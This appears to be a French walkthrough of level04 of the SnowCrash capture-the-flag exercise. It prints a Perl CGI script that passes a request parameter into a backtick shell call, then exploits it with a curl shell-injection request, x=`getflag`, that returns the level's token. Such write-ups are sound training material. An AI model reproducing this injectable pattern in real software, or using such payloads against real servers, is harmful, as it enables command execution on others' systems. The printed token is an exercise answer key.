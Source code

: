 on trouve un fichier .pl qui est un programme perl :

```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

il y a une fonction nommé x qui affiche le contenu de la variable x, et il est écrit en commentaire, que le programme écoute sur le port 4747

```
level04@SnowCrash:~$ curl 10.0.2.15
<html><body><h1>It works!</h1>
<p>This is the default web page for this server.</p>
<p>The web server software is running but no content has been added, yet.</p>
</body></html>
level04@SnowCrash:~$ curl 10.0.2.15:4747

level04@SnowCrash:~$ curl 10.0.2.15:4747 -d x=oui
oui
```

on voit bien que le serveur fait juste un echo sur la variable x

on fait alors une injection shell :

```
curl '10.0.2.15:4747?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

